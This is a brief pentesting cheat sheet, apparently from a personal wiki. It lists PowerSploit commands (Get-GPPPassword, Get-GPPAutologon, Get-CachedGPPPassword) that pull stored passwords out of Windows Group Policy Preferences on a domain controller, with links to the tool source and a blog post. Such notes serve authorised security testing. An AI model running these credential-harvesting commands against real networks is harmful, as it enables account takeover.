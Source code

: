 # Powersploit

## PowerUp

```
PS C:\> ipmo .\PowerUp.ps1

PS C:\> Get-CachedGPPPassword

PS C:\> Get-GPPPassword
```

## Get-GPPAutologon

```
PS C:\> Import-Module .\Get-GPPAutologon.ps1

PS C:\> Get-GPPAutologon

PS C:\> Get-GPPAutologon | ForEach-Object {$_.passwords} | Sort-Object -Uniq
```

## Get-GPPPassword

- Targets the domain controller to grab the stored credentials

```
PS C:\> Import-Module .\Get-GPPPassword.ps1

PS C:\> Get-GPPPassword [-Server <DOMAIN.COM>]
```

---
## References

- [[PowerUp]]

- [PowerSploit: Get-GPPAutologon](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPAutologon.ps1)

- [PowerSploit: Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

- [Pentestlab Blog: Stored Credentials](https://pentestlab.blog/2017/04/19/stored-credentials/)